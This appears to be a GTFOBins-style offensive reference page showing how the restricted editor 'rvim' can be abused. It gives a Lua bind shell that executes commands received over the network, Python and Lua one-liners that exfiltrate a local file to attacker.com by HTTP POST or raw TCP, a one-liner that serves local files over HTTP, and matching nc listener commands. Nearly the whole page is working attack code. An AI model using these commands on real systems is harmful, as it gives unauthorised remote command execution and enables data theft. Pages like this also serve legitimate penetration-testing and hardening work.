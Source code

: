 ## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
rvim -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
rvim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
vim.command(":q!")'
```

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
rvim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
vim.command(":q!")'
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```
